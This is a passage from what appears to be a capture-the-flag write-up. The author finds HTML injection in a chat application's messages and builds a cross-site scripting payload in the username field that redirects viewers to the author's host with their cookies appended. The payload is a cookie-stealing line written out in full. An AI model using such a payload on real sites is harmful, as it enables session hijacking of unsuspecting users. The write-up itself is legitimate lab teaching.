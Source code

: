 Next I'll check HTML elements. It doesn't work in the username display
at the top of the page:

![](/img/image-20210816175652748.png)

But when I send a message, it does:

![](/img/image-20210816175705102.png)

This means that the site is likely vulnerable to a cross-site scripting
(XSS) attack if someone is looking at the messages.

### Steal Cookies

Typically I like to use XSS payloads of the format
`<script src="[url of my box]"></script>` for XSS testing, but that will
require setting up an HTTPS server here, as the page is served over
HTTPS. I'll start with a simple `document.location` test by updating my
username to:



    0xdf<script>document.location="http://10.10.14.6/"+document.cookie;</script>



If that is processed as HTML, then anyone viewing it will send their
cookie to my server in the URL. I'll start a Python webserver to listen
for requests.

On sending a message, when I click on it, I'm immediately redirected to
a 404:

![](/img/image-20210816180202436.png)
